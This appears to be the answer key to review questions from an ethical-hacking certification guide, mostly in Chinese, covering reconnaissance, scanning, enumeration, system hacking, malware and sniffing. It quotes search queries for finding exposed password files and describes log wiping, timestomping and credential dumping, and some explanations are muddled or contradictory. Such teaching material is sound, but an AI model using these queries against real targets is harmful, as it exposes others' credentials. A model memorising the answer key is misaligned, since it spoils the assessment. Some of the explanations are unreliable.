## Chapter 4: Footprinting and Reconnaissance

1. B. 法国位于欧洲，因此受 RIPE 管辖。ARIN 负责北美，AfriNIC 负责非洲，LACNIC 负责拉丁美洲以及加勒比地区的一部分。

2. D. 关键字 `site` 表示要在该站点（或域名）中搜索的内容。你需要提供要搜索的域名，这将匹配该域名下在搜索数据库中的所有 FQDN，或者提供具体的主机名。关键字 `filetype` 指定结果的文件扩展名，必须提供文件扩展名。Google 或其他搜索引擎中不存在 `files` 或 `domain` 关键字。

3. A. PGP 使用公共服务器和共享验证来存储和验证密钥及其所有权。通常密钥由个人拥有。如果在 `pgp.mit.edu` 搜索，可能是在寻找人以及，特别是电子邮件地址。

4. D. `p0f` 可以提供某些系统的 uptime。数据包中不包含时间信息，因此无法获取本地或远程时间。绝对时间基于特定时区，而时区在网络层或数据链路层并不传递。

5. C. 大多数人使用本地缓存服务器进行 DNS 查询以获得更好的性能。递归是从缓存服务器查找 DNS 地址的过程。最终缓存服务器会向权威服务器请求信息。

6. A. 从本地缓存服务器发出的 DNS 请求先查看缓存，然后依次查询根服务器和后续服务器，逐步逼近最终目标。这种“提问‑得到答案‑再次提问”的过程称为 `recursion`。与此无关的有串行、组合数学以及由道格拉斯·阿当斯在《Life, the Universe and Everything》中发明的双倍数学（bistromathics）。

7. B. 在职位列表中识别高管通常不常见。虽然可能会得到钓鱼目标，但不确定，且单个个人通常不会被标识。职位列表中不会出现财务记录。公司使用的技术会在列表中标识，以确保申请人具备相应经验。

8. D. `whois` 用于查询域名、IP 地址及相关信息。`dig` 用于向 DNS 服务器发送查询。`netstat` 用于查看网络统计。`theHarvester` 可在多个来源（包括 Bing、Google、PGP 服务器和 LinkedIn）中进行搜索。

9. B. 其余选项可能包含公司信息，但只有 LinkedIn 主要是商业社交网络站点。在 LinkedIn 上的用户会列出职位，职位搜索会显示职位空缺，包括职位名称。

10. A. Shodan 是用于查找物联网设备的网站。其查询语言类似于 Google，但拥有额外的关键字，可用于识别网络流量，包括端口号。`p0f` 用于被动网络流量分析。你可以向 RIR 查询 IP 地址块的信息。Shodan 的域名是 `shodan.io`，但没有 I/O 搜索。

11. D. Wappalyzer 是 Chrome 扩展程序，用于识别网站使用的技术。它会部分利用 HTTP 头部信息，但不直接识别头部本身，也不是专门用于分析 web 头部。它可能会检查部分应用代码以确定使用的框架，但并不进行传统意义上的应用代码分析。

12. C. DNS 查询可以通过主机名或 IP 地址识别对方。你可以使用暴力破解技术尝试识别主机名，但该方法可能并不能得到全部结果。递归请求常见于缓存服务器向权威服务器请求完整响应。完整区域内容的术语是 `zone transfer`。

13. B. 运行 `whois` 查询针对 IP 地址时，会返回该地址所属的块、块所有者以及技术联系人，以及地址信息和可能的其他信息。结果中不会提供域名与地址块的关联，这虽可供推断，但并非查询直接提供的内容。

14. C. Google 使用关键字 `filetype:` 来识别需要搜索的文件扩展名。`Administrator:` 不是关键字，因此 `Administrator:500:` 是搜索词，配合 `filetype:txt` 表示搜索文本文件。

15. D. `whois` 命令用于向 RIR 查询 IP 地址块或域名的信息。`netstat` 用于网络统计。`dig` 可以使用 `@` 参数后跟想查询的名称服务器进行查询。查找名称服务器记录的正确做法是使用 `ns` 作为记录类型。查找邮件服务器则需查找 `mx` 记录类型。

16. B. 邮件交换记录以 `mx` 记录标识。名称服务器记录以 `ns` 标识。虽然企业可能拥有多个缓存名称服务器，但缓存名称服务器本身不属于该域，因为它缺乏任何域标识。

17. A. Twitter 和 Facebook 是社交网络站点。虽然可以通过用户名定位某人，但不一定能获取详细信息。Intelius 是人员搜索站点，能提供详细信息，但不能通过用户名搜索。PeekYou 允许通过姓名或用户名搜索人员。

18. C. LinkedIn 主要用于商业网络，上面的财务信息并不丰富。Facebook 是社交网络站点，供人际交往使用。EDGAR 是 SEC 维护的数据库，包含公众公司的 filing 信息。MORTIMER 是玩笑。如果你能辨认出这个玩笑，可获 bonus points。

19. D. 10‑Q 是季度报告。11‑K 与员工股票期权相关。401(k) 是退休账户。SEC 要求公众公司提交的 14A 报告包含给股东的年度报告。

20. C. 新西兰位于大洋洲，属于太平洋 Rim，归 APNIC（Asia Pacific Network Information Center）管辖。AfriNIC 覆盖非洲，RIPE 覆盖欧洲，LACNIC 覆盖拉丁美洲及加勒比部分地区。

21. C. `TXT` 是一种可以具有多种用途的文本记录。`MX` 记录用于邮件交换记录，用于标识域的邮件服务器。`PTR` 记录将 IP 地址映射到 FQDN。`NS` 记录是标识域名的名称服务器。

22. B. PeekYou 用于执行人员搜索。其他工具用于其他任务。

23. A. 第一个查询会返回一个规范名称，将 `www.wiley.com` 指向 `www.wiley.com.cdn.cloudflare.net`。别名是 `CNAME` 记录。要从 FQDN 获取 IP 地址使用 `A` 记录。`PTR` 记录将 IP 地址转换为 FQDN，`MX` 记录是邮件交换记录。

24. A. `Pastebin.com` 是常用的存储数据的网站，通常存储的是纯文本数据。`intext:` 关键字表明我们在页面中查找特定文本。此查询暗示我们在 `pastebin.com` 查找密码文件。页面中没有暗示有用户名，且二进制数据不会存储在 `pastebin.com`。它不应该是密码文件，因为引用了文件名。

25. C. `Sherlock` 在数百个社交网络中搜索提供的用户名。这将帮助你更好地了解个人在哪些地方使用特定用户名。它不会提供工作信息，查找指纹，或查找域名注册商。

1. C. TCP 扫描向目标发送消息并期待收到响应。使用 SYN 或全连接扫描时，目标会响应 SYN/ACK 信号，表示端口打开。对于关闭的端口，目标会响应 RST。

2. D. SYN 扫描先发送 SYN 消息，收到目标的 SYN/ACK 后立即发送 RST。全连接扫描在完成三次握手后发送 RST。由于全连接扫描遵循正确的三次握手顺序，它不会先发送 ACK，也没有在 SYN 标志中发送 PSH 标志，因为此时没有数据需要推送到栈。

3. A. 对于 UDP 端口没有定义的响应，完全由应用程序决定。缺乏响应可能意味着消息未到达目的地，扫描系统需要重传至关闭的端口。UDP 通常比 TCP 更快，因为缺少设置开销，且端口数量与 TCP 相同。

4. C. 当系统收到带 ACK 标志的 TCP 段（ACK 位为 1）时，假设存在打开的连接且有数据被确认。若没有打开的连接，则没有可响应的内容，系统会丢弃该 ACK。扫描器在端口打开时不会收到响应，但无法确定该消息是否被防火墙丢弃。因此，它将端口标记为“打开”或“过滤”，两者均导致无响应。扫描器并非猜测，而是提供两种可能性，但无法确定具体是哪种情况。ACK 标志在适当情形下受支持，ACK 扫描不会导致重传，因为无响应意味着以下两种情况之一。

5. A. 躲避（Evasion）是一个重要概念。你可能会花费大量时间规避检测或避免被阻止。由于没有打开连接的 ACK 是异常的，防火墙或 IDS 可能会忽略它，从而规避检测。结果是你可能能够让 ACK 消息通过。ACK 扫描并不受更好支持，事实上，网络栈根本没有为 ACK 扫描提供支持。代码在 `nmap` 中对 ACK 扫描的鲁棒性并没有比其他扫描更强，或者至少没有证据表明如此。ACK 扫描不需要用于脚本支持。

6. D. 当 `nmap` 执行操作系统扫描时，它会查找操作系统内核中的网络栈指纹。`nmap` 会查看 IP ID 字段和 TCP 消息的初始序列号，以观察使用的数值。应用程序版本与操作系统扫描无关，且不存在与网络流量相关的操作系统头部。操作系统头部可能被视为操作系统源代码的一部分，但 `nmap` 看不到这些。端口 0 被视为无效端口，来自该端口的连接响应无关紧要。

7. B. 版本扫描（version scan）用于识别目标上运行的服务/应用程序版本。操作系统通过 OS 扫描被识别。TCP 和 IP 头部不提供应用版本信息，IP ID 字段和 TCP 序列号字段也同样不提供版本信息。

8. C. 程序 `masscan` 是一个端口扫描器，类似于 `nmap`。它被开发用于尽可能快速地扫描整个互联网。因此，如果速度是考量因素，尤其是在扫描大块地址范围时，`masscan` 更适合该任务。`nmap` 与 `masscan` 共享相同的地址空间，且命令行参数基本相同，使用上同样易于使用。`nmap` 存在时间更长，自 1990 年代以来，而 `masscan` 相对较新。

9. B. `hping` 是用于向目标发送特制消息的程序，你通过命令行参数指定要包含在消息中的内容。命令 `hping ‑S ‑p 25 10.5.16.2` 用于让 `hping` 向端口 25（默认 SMTP 端口）发送 SYN 消息，目标为 10.5.16.2。虽然可能有人误将 `ping` 打错，但 `ping` 程序不使用这些参数，且这些参数与前一动作相符，更合理的解释是使用了 `hping`。SNMP 和网页流量使用的端口不同于端口 25。

10. D. 漏洞扫描器不会利用漏洞获取系统访问权限，它们只会利用漏洞的程度来判断漏洞是否存在。如果它们不知道如何使用 Nessus 或 OpenVAS，可能不会使用它们。也有可能它们是想比较两者的结果，但更可能是为了比较结果以降低误报率。

11. A. 当检测到的发现实际上不存在时称为假阳性（false positive）。当没有检测到发现但实际上存在漏洞时称为假阴性（false negative）。真阳性（true positive）是检测到的发现确实是漏洞。真阴性（true negative）是未检测到发现且不存在已知漏洞。

12. D. 进行 `ping` 探测（`ping` sweep）可能有多种原因。你可能想识别网络段中响应的主机。但你可能不想进行完整的端口扫描。ICMP 是轻量级协议，且有机会通过防火墙，因为它用于故障排除和诊断。

13. C. 你应当扫描生产服务器，因为那是你最感兴趣发现漏洞的地方。提前告知运维人员是礼貌的，因为漏洞扫描可能会不慎导致系统崩溃，需要重新启动。在深夜被意外页码是不愉快的。如果你知道扫描将要进行，则更容易处理。你可能会在报告中使用有限的细节，例如为了减少磁盘空间或打印报告的纸张量。对漏洞扫描结果不采取任何行动是对漏洞扫描的最差做法，比不执行扫描更糟糕，因为你已知存在漏洞却不加以处理，可能导致责任追究。

14. B. 扫描非标准端口并不隐蔽，它与扫描标准端口同样嘈杂，甚至可能更容易被检测到。你可以使用代理进行某些任务，但这只会隐藏你的 IP 地址，这并不隐蔽。你仍然可能被阻止或检测到。`nmap` 没有盲模式。当你对数据进行编码时，你会让防火墙或 IDS 更难识别可能发生的恶意活动，因为这些设备无法读取通过的消息。

15. A. 隧道攻击可以用来在一个协议内隐藏另一个协议。它们可以用来通过隧道系统发送操作系统命令。DNS 放大攻击是指一个小型 DNS 请求导致目标接收到 mucho 更大的响应。DNS 递归用于从 DNS 服务器查找信息。XML 实体注入是一种基于 Web 的攻击，不会出现在 DNS 请求中。

16. C. Xmas 扫描是一种使用 TCP 头部非常规标志的 TCP 扫描，用于尝试绕过防火墙或 IDS。Xmas 扫描使用 FIN、PSH 和 URG 标志，之名 Xmas 扫描是因为它看起来像是一个像圣诞树一样发光的数据包。其他选项都不符合 Xmas 扫描的定义。

17. B. MegaPing 可以执行很多不同的功能，但构造数据包、手动发送 Web 请求和运行漏洞利用是它不支持的功能。它可以运行端口扫描。

18. D. 插件会匹配到漏洞。不同的插件会识别不同的漏洞，且无法更改。扫描设置在设置扫描时可以更改。使用 TCP 而非 UDP 是模糊的。如果你想要更改 OpenVAS 提供的严重程度评级，你会覆盖该评级。你可能已有缓解措施，或你已调查并发现该发现是误报。

19. C. 凭据不会提高网络发现的可靠性，且漏洞扫描器通常不提供通过 VPN 直接进行身份验证的方式。如果网络在 VPN 后面，VPN 客户端应提前运行。Active Directory 扫描是一个模糊的答案，可能无法使用漏洞扫描器完成。但如果你提供凭据，扫描器可以对网络上的系统进行身份验证并检查本地漏洞。

20. C. 程序 `fragroute` 使用配置语句决定对特定主机目的地址的数据包应如何处理。这可能包括将应用层流量碎片化，以及复制和延迟流量。虽然有可能碎片化第 3 层头部，但如果第 2 层头部被碎片化，则无法将消息送达目的地。

21. A. `‑f` 用于碎片化，`‑‑mtu` 设置帧的最大传输单元。`‑g` 用于设置源端口，`‑‑spoof‑mac` 用于随机化源 MAC 地址。

22. C. 空闲扫描用于隐藏在未使用系统的 IP 地址背后。MAC 伪造用于利用与特定主机的信任关系。碎片化用于规避 IDS 和防火墙。由于 FTP 和 DNS 设计为使用特定源端口，有时防火墙规则会在不检查数据包其他方面的情况下信任源端口。

23. D. 如果目标在本地网络，你可以使用 MAC 伪造。如果你是远程的，目标永远看不到伪造的 MAC 地址，因为它会在第一层 3 设备处被移除，并在另一侧的层 2 头部和 MAC 地址上重新封装。DNS 与 MAC 伪造无关，碎片化并不必要。

24. D. 虽然每个 8 的倍数也是 2 和 4 的倍数，但只有 8 的倍数能够作为带有 `nmap` 的 MTU 使用。

25. B. 要执行伪装扫描，你需要使用命令行参数 `‑D` 并指定想要使用的伪装地址，这可以包括让 `nmap` 使用随机地址。其他答案均错误。

1. A. 远程过程调用是一种让一个系统上的进程与另一个系统上的进程通信的方式。当然，同一系统上的两个进程也可以通信。信号量是计算机科学中的另一个概念，可以用于进程间通信。远程方法调用是 Java 程序实现进程间通信的方式。进程需求页错误不是一回事。

2. C. `enum4linux` 是一个利用底层工具扫描实现 SMB 的系统的工具，这意味着 `enum4linux` 可以用于枚举共享、用户以及其他信息。其他选项均不合法。

3. D. SNMPv3 实现了基于用户名和密码的身份验证。在版本 1 中，你使用明文的社区字符串。SNMP 不使用哈希，虽然常用 `public` 来描述社区字符串，但公共字符串本身不是 SNMPv1 的身份验证方式。

4. C. 用于扩展邮件列表别名以获取该列表或组下属的实际电子邮件地址的 SMTP 命令是 `EXPN`。`VRFY` 用于验证，另外两个都不是合法的 SMTP 命令。

5. B. 实用程序 `dirb` 使用字典列表尝试枚举 Web 服务器上可能存在但不在页面和链接中可见的目录。

6. D. SNMP 可以用于从远程系统获取信息，这些信息需要描述，包括不同的数据类型。所有可用信息都在管理信息基 (MIB) 中描述。XML 是一种结构化包装数据的方式，但不在 SNMP 中使用。

7. A. 通过网络进行的进程间通信称为远程方法调用 (RMI)。用于动态端口分配的进程是 RMI 注册表，这是你用来查询已实现 RMI 的系统上可用服务的程序。


8. C. 扩展 SMTP (ESMTP) 协议有一个缩写为 `VRFY` 的命令，用于验证电子邮件地址。邮件服务器可能会暴露该命令，即使服务器软件支持 ESMTP。扩展邮件列表是 EXPN。你不会用 `VRFY` 以同样的方式处理邮件列表。另外两个命令没有在 SMTP 协议定义中指定。

9. B. 服务器消息块 (SMB) 协议在 Windows 网络中用于多种功能。其中之一是将文件（数据）从一个系统传输到另一个系统。电子邮件附件通过 SMTP 传输。NFS 在系统之间复制文件时自行管理数据传输。没有专门用于 Windows 注册表更新的数据传输。

10. D. 程序 `nmblookup` 可用于 Linux 系统。`smbclient` 是随 Samba 安装的程序，可用于通过 SMB 与系统交互。Metasploit 拥有大量功能，但并未内置于 Windows。`nbtstat` 可用于使用 SMB 收集信息，并且随 Windows 安装。

11. A. 如果你的 `VRFY` 命令针对 SMTP 服务器失败，会得到状态码 550。200 是 Web 服务器成功的状态码。其他代码在此上下文中无效。

12. B. 程序 `smbclient` 和 `enum4linux` 可以通过 SMB 来枚举信息。`snmpwalk` 可用于通过 SNMP 来枚举信息。`nmap` 可以用于枚举网络上所有系统上运行的服务。

13. D. 版本 1 的 SNMP 使用社区字符串。版本 2c 也使用社区字符串。版本 2 是对版本 1 的改进，但正是版本 3 实现了基于用户的身份验证以及加密。

14. A. 程序 `wpscan` 可用于枚举主题、用户和插件。它不能用于枚举管理员，具体而言。它也不能用于枚举帖子，且由于只有一个版本，你不会枚举版本。

15. B. Metasploit 可以通过用户创建的程序进行扩展。然而，你不会基于端口打开来调用 Metasploit 模块。Netcat 不进行任何枚举，而 `nbtstat` 是 Windows 程序且不可扩展。`nmap` 可以通过用户编写的脚本进行扩展。`nmap` 脚本包含端口注册，使 `nmap` 在发现特定端口打开时调用该脚本。

16. C. SMB 依赖于远程过程调用（RPC）来运行。常见的 Internet File System（CIFS）是基于 SMB 的文件共享和系统管理实现。网络文件系统（NFS）是一种利用远程过程调用的协议。远程方法调用（RMI）是通过 Java 远程调用程序的方式来调用远程过程。

17. D. `IPC$` 共享是一个命名管道，用于在网络上实现进程间通信。虽然你可能能够通过 `IPC$` 共享进行一些远程管理，但它并不用于远程进程管理。

18. B. JRE 是 Java 运行环境，运行 Java 程序所必需。JDK 是 Java 开发工具包，用于开发 Java 程序。程序 `rmic` 用于创建 RMI 程序，它会生成 RMI 所需的桩（stubs）。`rmir` 并不是什么。

19. C. RMI 是使用 Java 实现进程间通信的方式。由于 Java 是面向对象的编程语言，它会传输对象。SMB 是服务器消息块（Server Message Block）协议。SunRPC 执行远程过程调用，但传输的数据不是面向对象的。`nmap` 是用于扫描端口的程序。

20. A. 虽然 `nmap` 本身是一个出色的程序，可以用于跨多服务枚举数据，但它在没有额外帮助的情况下不会存储数据以便以后检索。Metasploit 也可以用于跨多服务枚举数据，并且在后端使用数据库来存储供以后检索的数据。RMI 是远程方法调用，用于在网络中实现进程间通信。PostgreSQL 是 Metasploit commonly 使用的数据库服务器。Postgres 是 PostgreSQL 的更老的版本。

21. D. SMTP 中的 `VRFY` 命令用于验证地址。这里的其他命令是发送邮件所必需的。`VRFY` 命令并非必需，可以用于枚举用户。

22. C. V3 是当前版本的 SNMP，它支持身份验证和加密，不同于旧版本的 SNMP。

23. A. 最新的 NetBIOS 补丁无法保护 SMB 服务免受信息收集。其他所有答案都是有效的防止枚举的方法。

24. D. 由终端用户配置共享的工作站系统可能权限较弱，这使得在该处查找共享成为一个好主意。因此，`smb_enumshares` 是一个合适的模块用于枚举。其他选项在端点枚举上都没有用处。

25. B. 入侵检测系统可能识别枚举活动，但不会防止它。无论是 EDR 还是防病毒软件都不会防止服务枚举。基于主机的防火墙可以限制谁可以发送网络请求，从而降低枚举的可能性。

# Chapter 7: System Hacking

## 1. D
文件元数据中常用的三个日期和时间戳分别是创建时间、访问时间和修改时间。文件创建时记录创建瞬间，访问时记录用户访问的瞬间，修改时记录文件被修改的瞬间。访问时间不等于修改时间，因为访问文件可能是只读操作，即使你打开文件期望修改，也未必会实际修改。访问时间仍会改变。虽然移动、添加和修改有时被称为 MAC（修改、访问、创建），但这些并不是与文件时间相关的任务。

## 2. A
账户迁移、特权迁移和账户提升是模糊且缺乏明确定义的概念，即便它们可能存在。而特权提升（privilege escalation）明确指在仅拥有普通用户权限时获得更高权限的过程。

## 3. B
John 的增量模式会尝试所有在指定参数范围内的可能密码，即 John 会生成密码。John 的默认模式是单次尝试模式，利用用户名和主目录等信息通过掩码规则生成密码。增量模式不使用词典，但 John 支持使用词典。

## 4. D
Rainbow 表使用预先计算的哈希映射到明文密码，以加速从存储哈希中恢复密码的过程。虽然 Rainbow 表能加快破解速度，但它们在磁盘空间上非常昂贵。哈希和密码存储在 Rainbow 表中，精度既未被牺牲也未被优先级化；使用 Rainbow 表需要牺牲磁盘空间以换取更快的破解时间。

## 5. C
本地漏洞针对的不是网络上监听的应用程序，这意味着你必须本地登录机器而非远程。本地漏洞不用于收集密码，也不需要利用漏洞来收集密码。同样，利用漏洞操作日志或横向移动也不需要漏洞，大多数情况需要提升权限。本地漏洞可以被利用以获得提升权限的优势。

## 6. B
修改文件时间戳的行为称为 timestomping，用于设置文件时间，以便混淆调查或掩盖入侵痕迹。其他选项都不是真实的概念。

## 7. A
交替数据流（Alternate Data Streams）是 NTFS（新技术文件系统）的功能，用于支持 Windows NT 中类似于 Apple 文件系统的资源分区。由于许多 Windows 实用程序和程序不原生支持交替数据流，它们无法使用或显示它们，但如果用户知道如何显示和操作交替数据流，文件仍可被访问。

## 8. A
你可以使用 PowerShell 脚本执行可能支持系统持久性的功能，但单凭脚本无法单独维持访问。交替数据流对维持访问没有帮助，而 `.vimrc` 文件是 Vi 编辑器的启动文件。Windows 注册表中的运行键（run key）可以用于在系统启动时自动运行程序，从而确保攻击者在重启后仍能获得访问。

## 9. D
虽然 Tor 网络可能用于获取针对漏洞的 exploit，但其可靠性存疑。Tor 网络可能包含恶意内容，即使是源代码也可能被篡改。Meterpreter 与 `msfvenom` 是 Metasploit 的组件，与发现漏洞无关。Exploit‑DB 是一个网站和库，收录可供搜索的针对已知漏洞的 exploit。

## 10. C
`clearev` 命令是 Meterpreter 用于清除 Windows 事件查看器日志的命令。虽然你可以在 Meterpreter 中修改时间戳和日志文件，但不会使用 `clearev` 来实现此目的。`clearev` 不允许攻击者远程登录。

## 11. B
当 Apache Web 服务器在 Linux 系统上运行时，它通常以 www‑data 用户身份运行。这是一个受限权限的账户，会阻止攻击者在系统上做太多事情。要执行任何操作（如擦除日志文件或横向移动到其他网络），需要提升权限到管理员/root 级别。利用浏览器的攻击不会在这个环境下进行，而且大多数 Web 服务器甚至没有浏览器安装。

## 12. C
攻击者通常会在系统上安装额外文件并启动额外进程。这些行为很容易通过手动调查或自动化检测工具被发现。规避的方法是安装 rootkit，它可能包括内核模式驱动或替换系统实用程序，从而隐藏这些文件和进程的存在。交替数据流可以用来隐藏文件，但不能隐藏进程。注册表键也可以隐藏文件，但不能隐藏进程。

## 13. B
Pivoting 是使用已被 compromize 的系统来在目标环境内移动到其他系统和网络的过程。Pivoting 不会提升权限或提供持久访问。你可能最终到达数据库服务器，但这并不是 pivoting 的主要目的或专用功能，它只是 pivoting 的一个 pleasant side effect。

## 14. B
程序 `rtgen` 是 `rcrack` 套件的一部分。`rcrack` 用于使用彩虹表破解密码。它用于生成 `rcrack` 将用于破解密码的彩虹表。彩虹表不是字典表，而是明文密码到哈希的映射，这使得从哈希中获取密码变得更加容易。

## 15. C
malformed packets 可能导致服务器端的失败或触发漏洞。大型 ICMP 包不太可能起作用，也不会利用客户端漏洞。粗力密码攻击并不是利用漏洞的方式，即使它是一种攻击技术。发送精心构造的 URL 可能会利用浏览器的客户端漏洞。

## 16. A
Steganography 是将数据隐藏在其他数据中，例如 MP3、WAV 或视频文件等媒体文件。NT 文件系统中的交替数据流是附加在文件名上的次要数据流。rootkit 可以用来隐藏进程，它可能使用进程注入，但这并不是进程注入的结果。当你注入进程时，你把自己创建的可执行操作放入另一个可执行文件的空间中。最终结果可能是一个运行你代码的执行线程，而没有新的进程名称表明它是在运行。

## 17. D
John the Ripper 用于破解密码，而 `nmap` 用于端口扫描。它们可能是系统 compromise 整体过程的一部分，但不能单独用于 compromise 系统，尽管《The Matrix》暗示了这一点。`searchsploit` 是用于搜索本地 Exploit‑DB 仓库的程序。Metasploit 是一个 exploit 框架，可以用于 compromise 系统，并且在系统被 compromise 后可以用于后期操作，利用其自带的模块。

## 18. B
在给出的选项中，只有浏览器存在于客户端。按照定义，Web 服务器位于服务器端。Web 应用防火墙（WAF）放置在服务器端，用于防护服务器免受应用层攻击。Web 页面托管在 Web 服务器上，它们不是客户端 exploit 的目标，但可以用于发起这些攻击。

## 19. C
rootkit 是一种恶意软件，用于执行多项任务。它可以通过使用内核模式驱动或替换系统实用程序来隐藏进程和文件。rootkit 还可能为攻击者提供后门，以便在初始 compromise 后长期保持对系统的访问。其他选项中的任何一个都不是 rootkit 的功能。

## 20. B
John the Ripper 和彩虹表是用于破解密码的工具，而不是用于获取或获得密码哈希。进程 dumping 可能会导出某个进程或应用程序关联的密码，但不一定能获得密码哈希，这取决于密码在内存中如何维护。进程 dumping 是将进程的内存空间写入磁盘以便分析。Mimikatz 是一个实用程序和 Metasploit 模块，用于从受 compromise 的系统中提取密码。

## 21. B
你会对 PowerShell 脚本使用混淆技术。混淆过程可能包含一些编码，但也可能使用编码用于其他合法目的。彩虹表用于破解密码，Kerberoasting 是在 Windows 系统上通过网络收集密码信息的方法。

## 22. A
你会在 Windows 网络中使用 Kerberoasting，因为用于在用户系统和服务器之间交换认证信息的协议是 Kerberos。Fuzzing 是向应用程序发送异常数据以期使其崩溃的方法。Rootkit 用于保持攻击者的访问并隐藏其在系统中的存在。PowerShell 脚本用于很多目的，但不是最佳的远程收集密码的方式。

## 23. D
Ruby 不够常见，虽然 Python 在类 Unix 系统（如 macOS 和 Linux）上很常见，PowerShell 则因为默认安装在所有当前 Windows 系统上且 Windows 系统数量更多，所以更常见。Cmdlets 是 PowerShell 的一部分，但不是语言本身。

## 24. D
Rubeus 用于攻击 Windows 网络上的 Kerberos 协议。Ophcrack 是用于密码破解的彩虹表工具。John the Ripper 也是用于密码破解的工具。Peach 是一个用于进行 fuzzing 的工具，即向应用程序发送异常数据，希望使其崩溃，从而暗示新的漏洞。

## 25. B
Rubeus 是针对 Kerberos‑based 网络的工具。Empire 是一组用于攻击 Windows 系统的 PowerShell 脚本集合。Ophcrack 用于破解密码。Meterpreter 是 Metasploit 中的操作系统无关接口，用于在系统被 compromise 后使用。

# Chapter 8: Malware

## 1. A
C2 服务器是 command and control 服务器，用于管理和控制僵尸网络（botnet）中的 bots。通信可能使用 IRC 或 HTTP，但不一定。I​SC2 服务器不存在。

## 2. C
both worms and viruses could be written to use polymorphic code, which means they could modify what they look like as they propagate. A worm, though, could self‑propagate. It's the one distinction between worms and viruses. Viruses require some user intervention to propagate and execute.

## 3. C
静态分析是对可执行文件的属性进行检查，评估其汇编代码，而不运行程序。这会限制感染风险，因为如果做得正确，你不会运行程序，从而避免感染。动态分析是可靠的，恶意软件无法在不运行的情况下部署。动态分析通常在虚拟机中进行。

## 4. D
VirusTotal 将数十个防病毒引擎的样本运行通过，以识别可能的恶意软件。VirusTotal 是一个网站，意味着它不能检查你的系统是否有病毒，也不能提供端点防护。虽然 VirusTotal 可以识别不同防病毒解决方案为该样本分配的名称，但要查找与该恶意软件相关的研究，需要查阅对应的防病毒厂商。

## 5. D
PE 文件包含多个部分（section），在可执行文件中常见的有 `.text` 与 `.data`。`.text` 部分包含所有可执行代码，`.data` 部分包含所有预定义并初始化的变量。其他答案中列出的部分不是 PE 文件的 section。

## 6. B
Metasploit 可用于从其 payload 模块生成自定义恶意软件。Empire 是基于 PowerShell 的另一个利用框架。IDA Pro 是调试器，Rcconsole 不存在。

## 7. A
所有已编译的程序都是二进制文件，即使是脚本语言在到达处理器时也已经是二进制。Packer 会让程序变小，这在带宽不普遍时很有价值，但 Packer 不执行编译，也不删除空字符。Packer 可以通过掩盖真实代码来隐藏程序，因为唯一的可执行函数是用于提取并解压真实恶意软件的函数。

## 8. C
Polymorphic（多体）意味着它有多种外观。当程序拥有多种外观时，会导致防病毒程序误判它。多体代码在复制或移动到另一系统或位置时会重写程序。它既不提高效率，也不帮助传播，虽然它可能是传播过程的一部分，也不会加速编译。

## 9. B
Python 解释器的执行速度可能比编译程序慢，但差异微乎其微，且在恶意软件方面通常不担心执行速度。Python 易学，且有大量社区库。挑战在于，除非使用 Python 编译器编译脚本，否则需要 Python 解释器。Windows 系统通常没有预装 Python 解释器。

## 10. C
Cuckoo Sandbox 是一组用于运行恶意软件并识别系统变化的程序和基础设施，用于动态分析恶意软件，而非静态分析。它是自动化的，不是手动的，也用于分析而非开发。

## 11. B
进行静态分析时需要能够进行反汇编的工具。动态分析可以使用已反汇编的可执行文件，但工具也必须能够执行代码。IDA 是唯一同时具备反汇编和执行能力的工具。Cutter 只做反汇编，PE Explorer 两者皆不具备，MalAlyzer 不存在。

## 12. A
可执行文件包含 CPU 在运行时解释的二进制值（机器码）。这些二进制值对人来说意义不大。因此使用反汇编器将机器码转换为助记符（mnemonics），即简短的词，帮助人们了解机器码的含义。

## 13. C
Dropper（下载器）会下载（drop）额外文件，这些文件可能是恶意软件。它不执行其他选项中提到的任何操作。

## 14. B
Encoder（编码器）用于改变可执行文件的外观，以防止防病毒程序识别其为恶意软件。它不编译恶意软件，也不规避用户检测；Packer 用于压缩恶意软件。

## 15. B
`msfvenom` 用于将 Metasploit 中的 payload 模块转换为可执行程序。恶意软件可能被用作“中毒药丸”（poison pill）之类的防御性战术，但仅凭命令行很难判断。此过程会对恶意软件进行编码，但它并不是已有的恶意软件，也不是启动 Metasploit 的方式，尽管它利用了 Metasploit 框架。

## 16. A
这是一道有点“陷阱”的问题。勒索软件（Ransomware）可能是一种病毒，即病毒的子集。勒索软件可能要求以比特币支付，但不包含比特币。勒索软件遍布全球，病毒在所有操作系统上运行。


17. C. Trojan（特洛伊木马）看似是一件事，实际上是另一件事。它可以欺骗用户运行恶意软件，因为用户期待的不是它。如果可执行文件的签名与之匹配，`Trojan` 无法规避防病毒；它不是恶意基础设施，虽然它可能是多体的，但这并不是使用 `Trojan` 的原因。

18. B. 动态分析恶意软件时，调试器很有用，因为它可以运行并控制恶意软件的执行。`OllyDbg` 是列表中唯一的调试器。`Cutter` 只做反汇编，不支持运行并控制恶意软件。

19. C. 传统的 C2（命令与控制）基础设施由客户端和服务器组成。客户端是感染系统上的软件，服务器发送 C2 消息给客户端。卫星或主站都不是 C2 基础设施的组成部分。

20. D. 防火墙可能阻止入站通信，因此最好让通信发起方位于内部。双向流量都可能被入侵检测捕获。虚拟机在此情形下不产生影响，防病毒也可能通过可执行文件而非通信流来检测恶意软件。

21. B. 混淆（Obfuscation）是让程序难以阅读或分析的过程。反汇编将机器码转换为汇编语言。`Packing` 是对可执行文件进行压缩，这会使其难以理解。

22. C. `strings` 实用程序可用于对可执行文件进行表面分析，获取如库名称等信息。哈希可用于在数据库中识别已知恶意文件。`Metasploit` 用于攻击系统。`Ghidra` 是由 NSA 开发的工具，部分相当于反汇编器，并提供额外的恶意软件分析功能。

23. D. 数据丢失是勒索软件可能带来的多种影响之一；如果担心数据丢失，保持良好的备份实践会帮助防止此类损失。反恶意软件、`Endpoint Detection and Response（EDR）`以及指标（indicators of compromise）不能防止数据丢失。

24. A. 由于某些勒索软件使用文件加密来阻止对数据的正常访问，解密工具可以用于恢复此类勒索软件攻击。加密工具已经被使用过，这里没有帮助。`Endpoint Detection and Response（EDR）`或反恶意软件在文件已被加密后也无用。

25. C. 防恶意软件软件可以识别运行系统中的任何内容。但引导区（pre‑boot）恶意软件可以通过拦截系统调用来隐藏并保护自己，从而使防病毒无法正常工作。只有在加载到操作系统之前，恶意软件才能规避检测。其他选项均能够通过更新签名和行为分析技术被防病毒捕获。

## Chapter 9: Sniffing

1. C. different vendors use different terms for port mirroring. Cisco uses the term Switch Port Analyzer (SPAN), which leads to the process sometimes being called port spanning.

2. B. The expression `host 192.168.10.5` is BPF, indicating that `tcpdump` should only capture packets to and from 192.168.10.5. If you wanted to only get it to or from, you would need to modify `host` with `src` or `dest`.

3. D. `tcpdump` uses the format `hostname/IP.port` when it prints an address. The addresses go source > destination, so `yazpistachio.lan` is the hostname, and `62882` is the port on the source address.

